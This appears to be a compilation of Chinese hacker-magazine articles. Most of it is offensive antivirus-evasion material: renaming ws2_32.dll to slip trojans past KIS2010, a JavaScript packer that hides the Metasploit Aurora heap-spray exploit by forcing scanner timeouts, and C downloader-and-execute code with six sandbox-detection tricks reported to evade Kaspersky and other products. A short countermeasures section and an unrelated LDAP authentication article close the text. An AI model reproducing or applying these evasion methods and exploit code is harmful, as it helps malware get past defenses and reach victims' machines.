这是一个非常简单的监听程序。可以肯定这个程序是毫无危害的。但我们将生成的程序拿到 KIS2010 下运行后，就会惊奇地发现被主动防御给拦截了。这可以证明 KIS2010 的主动防御并不是针对木马特征来进行拦截的。我们再将 `listen(m_Listen, 5)` 注释，并放到 KIS2010 下运行，就能发现 KIS2010 已经没有主动防御的提示了。同样，connect 函数也是 KIS2010 主要拦截的 Socket 函数之一。那么作为一个网络通信程序，怎么都不可能缺少这两个基本函数之一，是不是真的无法突破了呢？在去年某期杂志上，有人提到了复制系统 DLL 文件来恢复 Ring3 下的所有钩子的方法，对于 WINSOCK 函数来说同样适用。一般来说，我们连接 WINSOCK 的 LIB 文件选择是 ws2_32.lib，其对应的 DLL 是 ws2_32.dll。此时如果我们复制一份 ws2_32.dll，重命名为 MySock.dll，接下来通过调用 MySock.dll 中的 WINSOCK 函数即可通过 KIS2010 的主动防御，这里我提供两种方式来实现调用。

首先是动态加载的方式，比如上面的程序，将用到的函数全部动态载入了。这时候很多人都会奇怪，既然 KIS2010 拦截的是 listen 函数，那么我们只需要从新的 DLL 里载入 listen 即可，为什么还要载入其他函数呢？WINSOCK 函数是属于比较特别的一组函数，其中 WSAStartup 起到初始化 WINSOCK 库的作用，而且还必须保证是同一系统对象同一调用方式的初始化。比如说 listen 动态载入了，那么 WSAStartup 也必须动态载入，而且还必须是在同一 DLL 文件里动态载入，否则将会出错。既然 listen 动态载入了，那么其他函数也必须动态载入。这就会有一个不大不小的麻烦，假设你的程序 Socket 函数使用较少的话，那么动态载入不会有什么问题；假设是一款远程控制木马，其中使用的 Socket 函数非常多呢？如果你是 Delphi 程序员，书写代码的工作量会很小，

同时还要修改一下生成程序，当然这很简单。这样，我们就从函数的加载方式上改变了整个木马模块的运行结构。接下来再做代码定位，将变得非常轻松。但是模块修改也是源代码免杀中最难的一个环节，因为要做到这步，需要读懂整个程序的结构才可以做比较大的变动。

接下来，我们来解决主动防御。主动防御细分的话分为两种：一种是基于敏感函数监控的主动防御，比如瑞星、江民的主动防御就偏向此类；另外一种是基于防火墙拦截式的主动防御，主要是判断非认证程序是否有网络连接行为，如果有则进行拦截，比如 KIS2010 就属于此类。对于瑞星、江民的主动防御，定位方法在中篇中已经提到过，而过瑞星、江民的主动防御主要是采用函数替换法来实现的。由于在启发式杀毒已经讲解了如何替换函数，这里就不多做说明了。现在主要来说明如何通过 KIS2010 的主动防御，首先我们先写一个无害的函数。

```cpp
int main(int argc, char* argv[])
{
    WSADATA wsaData;
    WORD sockVersion = MAKEWORD(2, 2);
    WSAStartup(sockVersion, &wsaData);

    SOCKET m_Listen = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
}
```

### 工具与免杀

但是对于 VC++ 程序来说，光载入代码就要写好大一片，另外，这还得大量占用系统内存。所以这里我推荐第二种方法，就是修改 PE 的输入表。由于调用了 WINSOCK 的相关函数，那么对于生成的 PE 文件的输入表，其中必然有 ws2_32.dll 这一串字符串，用来定位 ws2_32.dll 这个动态链接库。我们通过一个 LOADER 程序，实现 ws2_32.dll 复制并重命名为 MySock.dll，然后将主 DLL 模块输入表中的 ws2_32.dll 修改为 MySock.dll。这样主 DLL 模块在工作的时候既实现了静态加载，同时也实现了过 KIS2010 主动防御。何乐而不为呢？

好了，关于源代码的基本免杀技术就介绍到这里了，希望大家喜欢。文中的不足之处也欢迎大家指正。我的黑防 ID 是“闪亮的心”。

- 前置知识：JavaScript
- 关键词：JavaScript，特征码

#### 利用强迫超时规避 JavaScript Exploit 特征码检测

译 / riusksk（泉哥）

鉴于 JavaScript 的动态特性，用它来混淆 exploit 代码很是容易。由于 JavaScript 是一种解释语言，网站也提供源代码给用户，因此，JavaScript 混淆代码的功能常常被用于保护源代码，以防止被复制粘贴，同时保护开发者的知识产权。在过去几年，用于混淆攻击代码的算法已经被大大改进了，再加上商业工具的运用，甚至已经开发出可伪装（隐含经空白字符格式化的 payload）的混淆器。

它们都被复杂化处理以隐藏真实代码，防止被人们或检测软件识别。基于特征码的检测方法一经失效，反病毒引擎就必须分析和仿真 JavaScript，直到识别出脚本的真实功能，以达到检测恶意代码的目的。如上所述，JavaScript 是一种可用多种方法来隐藏代码的语言，它支持各类元编程（metaprogramming）（译注：元编程是指某类计算机程序的编写，这类计算机程序编写或者操纵其他程序（或者自身）作为它们的数据，或者在运行时完成部分本应在编译时完成的工作。多数情况下，与手工编写全部代码相比，程序员可以获得更高的工作效率，或者给予程序更大的灵活度去处理新的情形而无需重新编译），这意味着代码可实现自修改，并创建出新代码。先加密字符串然后用 eval() 函数来执行也是一种众所周知的方法。由于代码必须能够自我运行，因此 JavaScript 混淆器集成了 KEY 和经大量混淆算法实现的解密程序。

##### 检测恶意 JavaScript 的问题

对于经动态混淆的代码，利用已知特征码的方法是检测不到的，因此经混淆处理后的代码就无法识别出是恶意代码。对此，反病毒扫描器需要有一个良好的仿真引擎，以识别出经解压后脚本的运行行为。继而，这也就引发了一场攻击者与安全软件厂商之间的争夺战。混淆代码是为了保护源代码的知识产权，同时也可用于更好地隐藏 exploit 特征码，它们似乎有许多共性。

##### JavaScript 代码压缩器的不同功能和限制

从攻击者的角度来看，存在一个优势，那就是网站开发者在大多 JavaScript 压缩器中并未考虑到时间因素。在正规网站上经混淆的代码必须执行得够快，即使是未经压缩的代码也应如此。然而，从攻击者的角度来看，我们确实还有一些时间可以拿来利用。但如果 exploit 的执行是在若干毫秒或 2 秒内完成的，这就无所谓了，因为大多受害者并不会注意到它，甚至不会在当时打开任务管理器杀死进程。然而反病毒扫描器必须像网站开发者一样以相同的方式来处理 JavaScript，它的执行不能比未扫描时花费明显过多的时间，最好是 1 秒的 1/10。

##### 利用时间因素

为了利用时间因素，代码压缩器需要创建出不会在一定时间跨度（timespan）内被分析出来的代码。由于这技术不应过于复杂，因此它必须以某种方式来执行，并且这种方式要求在短时间内不会分析出代码，所以最好的解决方案就是加密 payload。对比现在流行的代码压缩器，它们均没有满足加密 payload 的所有关键要求，自然而然地，也就不可能在合理的时间内进行解密。这不仅要求让反病毒扫描器无法查看 payload，攻击者的浏览器也不能。如前所述，由于反病毒扫描器的快速分析，因此在攻击者浏览器上的执行时间相对比较紧迫。然而也并非都是如此，我们可以创建一个加载器，用于暴力搜索访问 payload 的 key，然后选用一个在数秒内可破解的 key。最后导致反病毒引擎超时，但此时 payload 已经在浏览器中运行了。在当今浏览器里都拥有高优化的 JavaScript 引擎，运行暴力破解算法的速度很快，这给我们提供了很大的优势。

##### 运行摘要

为了实现加密功能，代码压缩器使用了 MD5 链接库，它可在正规网站中正常使用。压缩器使用 MD5 hash 对 payload 异或加密中的 key 进行加密处理，而 key 本身被分为三部分，提供给浏览器的是第一部分；第二部分是浏览器进行重定向的 URL 查询字符串，单独网页（常作为临时文件被保存）并不包含解密 payload 所需任何信息，如果不能得到查询字符串就无法分析代码；第三部分必须猜解才能得到。为了达到此目的，浏览器获得部分 MD5 hash，因为 key 相当短，可以结合 salt 值对所有可能 hash 值进行预测。

最后一部分是最关键的：key 必须是随机选择的，以便需要花费 2~3 秒才能破解。如果选择一个薄弱的 key，那么首次猜解就可能猜对了。为了避免此问题，就要求大小最小的 5 个 key 必须都能够破解。利用这一技巧，再做进一步优化即可在特定时间内生成 key，在计算出 key 的未知部分（已知是基于 MD5 哈希加密的）后，受害者的浏览器能够重组出原始 key，此后使用它解密 payload，然后使用 eval() 函数来执行它。

另一个难点在于不同浏览器中的 JavaScript 执行时间。在最新版本的浏览器上运行脚本可能需要 1 秒，但在旧版本上（比如 Internet Explorer 6）可能就需要花费更多的时间了。由于大部分的攻击目标都是针对特定的浏览器版本，因此 JavaScript 引擎的运行性能情况一般都是已知的。进而，可以获得 JavaScript 引擎预期的执行速度（如果攻击的浏览器是旧版本的，那么 AV 扫描器就占有一定优势了）。图列出了 JavaScript 代码压缩器的设计图。

## 整合 Metasploit framework 及其用例

清单 1 列出了由 Metasploit framework 提供的原始 aurora exploit 的部分代码。

```javascript
Listing 1: JS code generation from the original metasploit aurora module
var boom = rand_text_alpha(rand(100) + 1);
var element = rand_text_alpha(rand(100) + 1);
var event = rand_text_alpha(rand(100) + 1);
...
function boom() {
  var shellcode = unescape(...);
  var spray = unescape("%u" + ...);
  do { spray += spray; } while (spray.length < 0xd000);
  for (i = 0; i < 150; i++) memory[i] = spray + shellcode;
}
function loaded(loaded_arg) {
  boom();
  event = document.createEventObject(loaded_arg);
  document.getElementById("...").innerHTML = "";
  window.setInterval(grab_mem, 50);
}
```

```javascript
p = "\u0c0f\u0c0d\u0c0d...";
for (i = 0; i < el_array.length; i++) {
  el_array[i].data = p;
}
var t = event.srcElement;
```

所有的变量名均被手动设置为随机字符串，目的是为了增加代码阅读和修改的难度。新开发的代码压缩器几乎改变了原本所有的代码，并对代码进行了加密，再用加载器对其进行解密。加载器一解密完，就会调用 eval 函数来执行代码，清单 2 列出了使用新开发的压缩器处理过的 exploit 代码。

```javascript
Listing 2: Code from Listing 1 using the JSide packer
$s = "%0[var element='COMMENT']";
var el_array = new Array();
for (i = 0; i < 1300; i++) {
  el_array[i] = document.createElement(element);
  el_array[i].data = "#{blch}";
}
var event2 = null;
var memory = new Array();
var unescape = unescape;
function boom() {
  var shellcode = unescape("#Rex::Text.to_unescape(...)");
  var spray = unescape("%" + "u" + ...);
  do { spray += spray; } while (spray.length < 0xd000);
  for (i = 0; i < 150; i++) memory[i] = spray + shellcode;
}
```

```javascript
event2 = document.createEventObject(loaded_arg);
document.getElementById("#var_span_id").innerHTML = "";
window.setInterval(grab_mem, 50);

function grab_mem() {
  p = "\u0c0d\u0c0d...";
  for (i = 0; i < el_array.length; i++) {
    el_array[i].data = p;
  }
  var t = event2.srcElement;
}

@packer = JSIdle.new(js)
res = @packer.pack()
js_encoded = res[:encoded]
```

```javascript
var jqw = "abcdefghijklmnopqrstuvwxyz";
var gccr = 1;
while (true) {
  var snnpi = "";
  var ehoo = gccr;
  while (ehoo > 0) {
    var dwodi = ehoo % 26;
    snnpi = jqw[...] + snnpi;
    ehoo = Math[...] (ehoo / 26);
  }
  if (hex_md5(info + snnpi) == ocwe) {
    break;
  }
  gccr++;
}

var fwg = hex_md5(quo + snnpi);
var hrah = "";
for (...) {
  hrah += String[...]...replace(...);
}
```

清单 3 列出了生成 JavaScript 压缩代码的示例源代码。

```text
Listing 3. Shortened example of the resulting packed JS code:
var aus = '...';
var rcnp = 'b35447b5...';
var hoh = '';
for (i = 0; i < rcnp[...] ; i += 2) {
  hoh += String[...]...
}
var fdnu = location.search[...];
var ggp = '...';
var ntn = '...';
var ocwe = '...';
var quo = fdnu + ggp;
var qia = false;
var fwg;
var snnpi;
```

虽然 VirusTotal 并不能真实地反应出运行在受害者主机上的杀软的情况，但它也说明了压缩器在绕过反病毒引擎上的成功。

对比其他压缩器，本文设计的压缩器主要是用于需要一定技术含量的渗透测试，进而减少手工分析的复杂工作。本文所提出的解决方案也适用于嵌入 PDF 文件的 JavaScript，虽然在 PDF 文件中的混淆代码与 Web 页面有所不同，但大多 AV 扫描器在针对 JavaScript 的检测上，都只是看它是否存在可利用的漏洞函数的特征码。

##### 对策

虽然对 JavaScript 代码的分析与检测并不能在时间上进行完全限制，但经压缩的代码至少可被列为可疑对象，以留作后面的进一步分析。利用异步技术，再加上良好的 JavaScript 仿真引擎，依然可以用于检测 payload。

近来在客户端攻击问题上的研究常因分析过程过于复杂而无法在短时间内完成，来自 Sourcefire Vulnerability Research Team Labs 的 Razorback 项目（以前称为 Near Real-Time Detection）在其论文中讲述了一种处理此问题的技术，并分析了网络入侵检测系统的前景（参见：http://labs.snort.org/razorback/）。其他解决方案可利用行为检测和白名单，即使 JavaScript 代码不能分析，但最后 payload 的恶意行为仍可被检测并预防。

##### 小结

虽然所讲述的技术会对反病毒厂商造成新的困难，但它确实很可能被用于攻击目标。另一个常常让人最为不满的一方面——在 exploit 广泛传播后被反病毒厂商捕获到，然后再创建出新的特征码用于检测。但是，攻击源代码又常常不会被反病毒厂商获取到。杀软要想检测出大部分新出的压缩器生成的 JavaScript 代码样本，还需要相当长的一段时间。这也再次证明了基于行为的检测技术还是很有必要的，杀毒软件并不能仅仅依靠已知的特征码来检测恶意软件——对于使用前文所述方法压缩过的代码，杀毒软件将无法在合理的时间内检测出来。

- 前置知识：无
- 关键词：卡巴斯基、启发式扫描

#### 把虚拟机技术成功应用于主动捕获木马实现剖析

文／masepu

随着病毒木马技术的不断变化和发展，反病毒软件的杀毒技术和能力也在不断提高。杀毒软件最初只是单纯依靠固定的特征码扫描技术来发现病毒，到后来发展到以简单的启发式扫描和基于 HIPS 的主动防御等技术为主来检测未知病毒和恶意软件，也在不断进步和完善。特别是现在的主流反病毒软件普遍采用了基于虚拟机技术的启发式扫描技术，使其对未知病毒和恶意软件的查杀能力不断增强。这种方法虽然存在着一些系统资源消耗过大、误报率高的问题，但仍是杀毒软件技术未来发展的主流方向。虚拟机杀毒技术一直是安全界研究的热点问题，部分国际知名杀软厂商，如卡巴斯基在基于虚拟机的启发扫描技术上已经具有牢固根基，并有效应用到自己的安全产品之中，使一般病毒木马的常规变形和免杀手段很难奏效。

“虚拟机杀毒技术”简单地说就是由杀毒软件先虚拟一套程序运行环境，让被检测程序在该虚拟环境下运行，杀软全程监控该程序的执行过程，最后根据其行为来分析和判定是否为病毒程序。这项技术的运行过程可分为以下四步：首先是在电脑里创造一个可控的虚拟运行环境，然后在这个环境中激发病毒运行，之后根据其行为特征进行病毒分析，最后处理病毒。卡巴斯基的安全产品在运用基于虚拟机的启发式病毒扫描技术上对于未知病毒和木马的检测取得了很好的效果。由于要考虑到查杀效率和误报情况，其杀软虚拟机作为一个模拟的程序运行环境，其与真实的操作系统必然存在着或多或少的差异。比如在 Windows 操作系统下，卡巴斯基杀软为了能够通过虚拟机来运行检测病毒，就必须虚拟一个 Windows 的系统环境，包括各种 API 函数、文件信息及硬件信息。程序在其中执行时才能够完全按照真实系统环境来运行，如果模拟不到位，就会发生在虚拟机环境中可能不能执行的代码在真实环境中运行却可以生效的情况。这就表明只要恶意代码加上运行前判断是否是在虚拟机环境中运行的代码，或是利用某些特殊代码使虚拟机模拟失效，就可能顺利绕过卡巴斯基的虚拟机启发式扫描。以下是一段常见的下载者代码：

```cpp
TCHAR szFileName[MAX_PATH] = {0};
URLDownloadToCacheFile(NULL, "file://c:\\windows\\notepad.exe", szFileName, MAX_PATH, 0, NULL);
ShellExecute(0, "open", szFileName, NULL, NULL, SW_SHOW);
```

将以上代码通过 VC++ 6.0 编译生成，在装有 KIS2010 的主机上会立即被查杀。如果通过简单的函数替换、加无用指令等传统改变特征码的方式来做免杀的话依然会报病毒。这是因为 KIS2010 会通过虚拟机虚拟执行该程序指令。程序函数的调用顺序为先通过 URLDownloadToCacheFile 函数下载一文件，然后再通过 ShellExecute 函数执行该文件。一旦发现这两个敏感的操作并按该顺序执行时，KIS 就会报警，任你如何变换一律无效。

如何针对卡巴斯基虚拟机和真实主机的差异来逃避和绕过查杀，重点就是在于寻找虚拟机和真实主机间的有效差异。以下就是针对卡巴斯基的虚拟机扫描技术绕过的几种方式。

- 1. **explorer.exe 进程 ID 与父进程 ID 比较法**

网友 xyzreg 提到的判断父进程的方法很流行，思路是判断程序当前进程的父进程是否为 explorer.exe，如果是则为真实环境，如果不是则为卡巴斯基虚拟机。该段代码现已失效，估计是卡巴斯基已将被检测程序的父进程模拟成了 explorer.exe，因此该方法失效；但由此方法引出的其他方法依然有效，比如 explorer.exe 进程 ID 与其父进程 ID 比较法。

该方法的基本思路就是比较 explorer.exe 的进程 ID 与其父进程 ID 的异同。在真实系统中这两个 PID 是不同的，而在卡巴虚拟机中这两个 PID 却是一样的。这个思路是黑防 2010 年 9 期的《编写反启发式免杀下载者》一文中提到的，文中提供的是汇编代码，这里贴出其主要 C 代码如下：

```cpp
HANDLE hkz = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
pe.dwSize = sizeof(PROCESSENTRY32);
if (Process32First(hkz, &pe)) {
  do {
    if (strcmp(pe.szExeFile, "explorer.exe") == 0) {
      tpid = pe.th32ParentProcessID;
      epid = pe.th32ProcessID;
      break;
    }
  } while (Process32Next(hkz, &pe));
}
if (tpid == epid) return 0;
TCHAR szFileName[MAX_PATH] = {0};
URLDownloadToCacheFile(NULL, "file://c:\\windows\\notepad.exe", szFileName, MAX_PATH, 0, NULL);
ShellExecute(0, "open", szFileName, NULL, NULL, SW_SHOW);
```

- 2. **基于循环超时攻击的思路**

此方法是网上看到的一种方法，作者的思路是使用大量无意义的代码块来模拟 Sleep 函数的功能，原因是卡巴对于大量循环的无意义操作并未完全虚拟执行，致使虚拟机的时间和真实环境下的时间不一致，使程序在虚拟机中和真实环境下的执行流程不一样。这样就实现了对卡巴虚拟查毒的绕过。部分关键代码如下：

```cpp
TCHAR szMutex[] = "...";
HANDLE hEvnet = CreateEvent(NULL, NULL, NULL, szMutex);
int tmp = GetLastError();
if (tmp == 0) {
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  TCHAR szPath[MAX_PATH];
  GetModuleFileName(NULL, szPath, MAX_PATH);
  CreateProcess(szPath, NULL, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
  for (int i = 0; i < 100000000; i++) { __asm nop }
  CloseHandle(hEvnet);
}
```

```c
return 0;
}
TCHAR szFileName[MAX_PATH] = {0};
URLDownloadToCacheFile(NULL,"file://c:\\windows\\notepad.exe",szFileName,MAX_PATH,0,NULL);
ShellExecute(0,"open",szFileName,NULL,NULL,SW_SHOW);
```

此方法虽然能够绕过卡巴斯基的虚拟机查杀，但是执行时占用了大量的CPU和内存资源，速度很慢，因此使用价值较低。此法详细情况可参见网上的《卡巴虚拟机启发式查毒的绕过方法》（作者dangdang）一文。

## 3. 利用下载函数是否执行成功的判定方法

该方法的思路是在看雪论坛的《也谈卡巴2010虚拟机启发式扫描技术突破》中看到的。更改后的主要代码如下：

```c
TCHAR szFileName[MAX_PATH] = {0};
HRESULT result = URLDownloadToCacheFile(NULL,"file://c:\\windows\\xyz.exe",szFileName,MAX_PATH,0,NULL);
// 从指定的路径下载文件，url是一个根本不存在的地址
if (result != 0) {
    TCHAR szFileName[MAX_PATH] = {0};
    URLDownloadToCacheFile(NULL,"file://c:\\windows\\notepad.exe",szFileName,MAX_PATH,0,NULL);
    ShellExecute(0,"open",szFileName,NULL,NULL,SW_SHOW);
}
```

其主要思路是通过函数URLDownloadToCacheFile去下载一个根本不存在的文件，如果失败，就正常执行后面的下载者操作，否则退出。当然在实际执行时结果肯定是下载失败，能够执行到后面的下载者代码。由于卡巴斯基虚拟机在对此虚拟时没有真正去访问和下载这一不存在的文件，直接默认为下载成功，因此就不会虚拟执行到后面下载者的代码。具体为什么卡巴斯基没有真正去下载该文件，直接默认为下载成功就不得而知了，估计也是为了保证虚拟机查杀的高效率和低资源占用率吧。

## 4. 利用运行程序延时绕过虚拟机查杀

该方法的基本思路是利用真实主机在执行程序时的时间差异来判断的。比如在真实的系统中运行一个GUI程序，从执行到其完全运行起来是有一定延时的。如果在运行后立即利用FindWindow函数查找该GUI窗体是不成功的，而在卡巴虚拟机里是默认如果该文件存在一定能够立即运行起来，并不考虑意外运行失败或者有延时现象。这样我们就可以利用此特点来判断是否为真实环境，然后再运行我们的下载者代码。这里我用运行一个GUI程序然后检测其窗口的方式来测试，测试代码如下所示：

```c
STARTUPINFO si;
PROCESS_INFORMATION pi;
ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
ZeroMemory(&pi, sizeof(pi));
HANDLE MessageBoxHandle;
CreateProcess("C:\\windows\\notepad.exe", NULL, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
MessageBoxHandle = FindWindow("Notepad", NULL);
Sleep(1000);
if (MessageBoxHandle) {
    TCHAR szFileName[MAX_PATH] = {0};
    URLDownloadToCacheFile(NULL,"file://c:\\windows\\notepad.exe",szFileName,MAX_PATH,0,NULL);
    ShellExecute(0,"open",szFileName,NULL,NULL,SW_SHOW);
}
```

该代码的关键在于首先运行的notepad.exe和其后的FindWindow函数之间在真机上运行的微小延时。由于运行了notepad.exe，卡巴的虚拟机一定认为后面的FindWindow函数必能够执行成功，所以在本代码中是不会去执行if下的语句的。可是在实体机中由于执行时延的关系，执行FindWindow时往往notepad还没有起来，导致FindWindow函数失败，所以能够顺利下载执行。通过此方法，我们也能顺利绕过卡巴的虚拟机查杀。为了让这种方法具有更强的实用性，我们通过设置CreateProcess函数的参数将该GUI程序隐藏运行，即将CreateProcess函数中的STARTUPINFO类型参数si的wShowWindow属性设为SW_HIDE即可。经测试效果是一样的，顺利通过卡巴虚拟机查杀。

## 5. 利用FindWindow函数绕过虚拟机查杀

该方法的测试代码与第四种方法的基本一样，但原理却完全不同。前一种方式能够逃避卡巴虚拟机的查杀是因为虚拟机模拟执行程序时没有考虑到真实系统中的程序运行延时的问题，如果我们在CreateProcess函数和FindWindow函数间加入了Sleep函数，则程序就会被杀。而后一种方法能够顺利通过的原因是卡巴虚拟机并没有完全模拟FindWindow函数。部分代码如下：

```c
CreateProcess("C:\\windows\\notepad.exe", NULL,
NULL,NULL,FALSE,
0,NULL,NULL,&si,&pi);
Sleep(1000); // 此处等待一会儿
MessageBoxHandle = FindWindow(NULL,"无标题-记事本");

// 此处改为通过窗口名查找
if (MessageBoxHandle)
{
  TCHAR szFileName[MAX_PATH] = {0};
  URLDownloadToCacheFile(NULL,"file://c:\\windows\\notepad.exe",
    szFileName,MAX_PATH,0,NULL);
  ShellExecute(0,"open",szFileName,NULL,NULL,SW_SHOW);
}
```

在真实环境中，该段代码中的FindWindow函数是可以执行成功的，而在卡巴虚拟机中，这个利用窗口名称查找句柄的函数却执行失败；而在上一个方法中利用窗口类查找的FindWindow函数，卡巴虚拟机却可以成功执行。通过此方法，我们同样可以达到绕过卡巴斯基虚拟机杀毒的效果。

## 6. 利用检测IDT地址的方法突破

该方法的思路来源于黑防2010年第9期的《检测程序是否在VMWare虚拟机中运行》一文。该文通过指令来获取系统的中断描述符表地址，以此值来判断程序是否运行于VMWare虚拟机中。文中测试的VMWare5的IDT表地址为0xffxxxxxx。我在Windows XP SP3下的VMWare7中测得IDT表地址为0xffc18000，和VMWare5中是一样的；但在Windows 7下的VMWare7中该值完全不同。看来该值与宿主系统的版本有很大关系。我想是否卡巴虚拟机中的IDT表地址也与VMWare一样，也是有固定的值呢？通过不断尝试，我终于将卡巴虚拟机的IDT表地址固定到了一个较小的范围，在0x8003f400与0x80047400之间，以此范围为判断依据进行测试。

测试下来，全部免杀，看来卡巴斯基的虚拟机IDT表地址也是固定的！以下是主要代码：

```c
__asm sidt idtr
idt_base = *((unsigned int*)&(idtr+2));
if((idt_base > 0x8003f400)&&(idt_base < 0x80047400))
{ MessageBox(NULL,"在KIS中","在KIS中",MB_OK); }
else
{
  TCHAR szFileName[MAX_PATH] = {0};
  URLDownloadToCacheFile(NULL,"file://c:\\windows\\system32\\write.exe",
    szFileName,MAX_PATH,0,NULL);
  ShellExecute(0,"open",szFileName,NULL,NULL,SW_SHOW);
}
```

这段代码通过检测IDT地址与已知的卡巴虚拟机IDT值的范围比较来判断是否为卡巴虚拟机。有兴趣的读者可以继续测试下卡巴虚拟机的IDT地址，觉得这样会比这个范围检测更加准确。

以上是我在测试下载者代码时收集和发现的一些绕过卡巴斯基虚拟机查杀的方法，提供的仅是证明代码，可能部分方法要实际应用时还要作相应更改，但基本思路是一致的。就是代码编写者要找到虚拟机和真实环境间的各种区别，构造出一种卡巴虚拟机无法虚拟的情况就可能突破该查杀机制了。其实除了超时攻击的方法外，其余的方法基本上都是在执行时首先根据虚拟机和真机间的不同来判断自身所在的环境是否为杀软的虚拟机环境，如果是就终止执行，以此条件判定来有效逃避KIS的虚拟机查毒。

以上代码均在KIS2010和KIS2011下都做了测试，都能够顺利通过。在包括360杀毒、诺顿网络安全特警2010、McAfee防病毒防火墙组合、ESET Smart Security 4.0、小红伞、诺顿反病毒等主流杀软环境下测试，发现大部分杀软对这两个下载执行的函数没有监控，基本都是免杀的。360杀毒可检测到利用for循环超时攻击的程序，ESET Smart Security可检测到利用URLDownloadToCacheFile执行是否成功的判定方法的程序为未知病毒，但代码稍加修改就能免杀，且一律都对未加任何绕过代码的原始下载程序放行。看来这两款杀软只是将在网上公布的这两种绕过方法盯上了下载者病毒，但不知什么原因对于未加任何绕过代码的原始下载程序却放行了。对杀软的病毒检测机理研究得不多，没能找到这种情况产生的原因。有兴趣的读者可以继续测试下其他具有虚拟机启发式杀毒的杀软，看看它们与卡巴虚拟机间的异同和绕过方法。

前置知识：Linux；  
关键词：网管，LDAP，认证

## Linux下LDAP统一认证的实现

文／图 李晨光


企业内部需要认证的服务很多，员工需要记住很多的密码，即使对这些服务进行相同的密码设置，也存在很大的安全隐患。笔者目前工作的企业就是如此，每一个新员工到来管理员都要初始化很多密码，而这些密码都被设置成了“888888”等弱密码。由于各种软件的认证机制之间没有使用一个统一的标准，员工无法一次性修改所有服务的密码，这导致很多即使是入职很久的员工都还在使用这个众所周知的密码。

另外一个比较严重的问题出现在公司增加内部服务的时候，例如领导要在公司内部提供邮件服务，或把现有的Proftpd换成更高效的Vsftpd，管理员需要重新为所有的员工初始化新的账户信息。对于一个有上千员工的企业来说这将是一个“灾难”。

如果可以为各种软件提供一个标准的认证机制，所有软件就可以不再用独有的用户管理方法，而是通过这种统一的认证机制进行用户认证，这样就解决了目前很多企业遇到的问题。LDAP正是这样一种标准的协议。LDAP的历史可以追溯到1988年，之后诞生的很多软件基本上都支持这个协议。近年来随着企业对LDAP需求的不断增加，绝大多数有认证机制的软件都会首先提供对LDAP的支持。本文将介绍通过LDAP统一身份认证的方法以简化这种复杂的管理过程。

LDAP是Lightweight Directory Access Protocol（轻量级目录访问协议）的缩写，其前身是更为古老的DAP协议。它是基于X.500标准的，但是很简单，并且可以根据需要定制。与X.500不同，LDAP支持TCP/IP，这对访问Internet是必需的。LDAP的核心规范在RFC中都有定义。大体上讲，LDAP协议定义了和后台数据库通信的方法及客户端软件和LDAP协议之间的通信标准，如图1所示（更详细的说明可以参见相关的RFC文档）。


图1

在图1中，LDAP Client指各种需要身份认证的软件，例如Apache、Proftpd和Samba等。LDAP Server指的是实现LDAP协议的软件，例如OpenLDAP等。Data Storage指的是OpenLDAP的数据存储，如关系型数据库（MySQL）或查询效率更高的嵌入式数据库（Berkeley DB），甚至是平面文本数据库（一个txt文本文件）。可见，OpenLDAP软件只是LDAP协议的一种实现形式，并不包括后台数据库存储。但在很多时候管理员经常将LDAP Server和Data Storage放在一起称呼。

## LDAP概述

LDAP是Lightweight Directory Access Protocol（轻量级目录访问协议）的缩写，其前身是更为古老的DAP协议。它是基于X.500标准的。虽然后台数据库（backend）可以是多种多样，但LDAP协议还规定了数据的存储方式。LDAP数据库是树状结构的，与DNS类似，如图2所示。


在图中，以这种方式存储数据最大的一个好处就是查询速度快，LDAP数据库专门对读操作进行了优化。OpenLDAP配合Berkeley DB可使其读操作的效率得到很大提高。LDAP数据库的树状结构的另一个好处是便于分布式管理，有关这方面的内容将在后面有所介绍。

##### 实现思路

统一身份认证主要是改变原有的认证策略，使需要认证的软件都通过LDAP进行认证，如图3所示。在统一身份认证之后，用户的所有信息都存储在LDAP Server中。终端用户在需要使用公司内部服务的时候，都需要通过LDAP服务器的认证。每个员工只需要记住一个密码，在需要修改用户信息的时候可以通过管理员提供的Web界面直接修改LDAP Server中的信息。


目前大部分主流软件都对LDAP提供很好的支持，但由于各种软件对LDAP的支持程度不同，在做实施的时候也要区别对待。软件对LDAP的支持可以大概分为两大类。

一类是完全支持，也就是在软件的配置文件中加入和LDAP有关的选项就可以完成。这种方式的好处是不需要借助其他的工具或软件，由软件的开发团队直接完成对LDAP的支持。可能的缺陷也在此：由于各个软件开发团队的水平和开发者经验有所差异，虽然同样是支持了LDAP，但稍微复杂一些的高级功能就无法提供，有的时候甚至出现运行错误导致整个软件出现问题。笔者曾遇到过一个基于Web的CVS浏览软件，安装文档中说明了支持LDAP，但实际使用当中遇到了很多问题导致整个软件Crash。一些比较主流的软件，例如Apache 2.X，对LDAP的支持已经近乎完美。

另一类软件由于很多原因并不直接支持LDAP，而是通过PAM做身份认证。由于PAM本身支持LDAP，这样也同样可以实现使用LDAP做身份认证。这种方式对LDAP的支持同样有其优势：软件开发人员不需要修改代码支持LDAP协议，减少了软件本身产生安全漏洞的可能。缺点是在一些不希望使用PAM的系统中，这样的软件就无法通过LDAP进行用户认证，而且虽然PAM对LDAP的支持已经很完善，但一些高级、复杂的功能还是无法实现。正由于这些原因，这类软件为数不多，比较典型的就是Vsftpd和CVS。

## 应用LDAP做身份认证

介绍到这里可能很多读者会问为什么需要使用LDAP数据库？用传统的关系型数据库不可以吗？从上文可以看到，LDAP服务器就是起到了一个认证Server的作用。从技术本身而言，这个认证Server具体使用的是何种数据库并不重要，如果使用一个关系型数据库也可以达到统一身份认证的目的，但LDAP自身的优势使得很多公司最终选择它。以下笔者列举了一些选择LDAP的重要原因。

- （1）LDAP是一个开放的标准协议。不同于SQL数据库，LDAP的客户端是跨平台的，并且对几乎所有的程序语言都有标准的API接口。即使改变了LDAP数据库产品的提供厂商，开发人员也不用担心需要修改程序才能适应新的数据库产品。这个优势是使用SQL语言进行查询的关系型数据库难以达到的。
- （2）由于LDAP数据库的数据存储是树结构，整棵树的任何一个分支都可以单独放在一个服务器中进行分布式管理，不仅有利于做服务器的负载均衡，还方便了跨地域的服务器部署。这个优势在查询负载大或企业在不同地域都设有分公司的时候体现尤为明显。
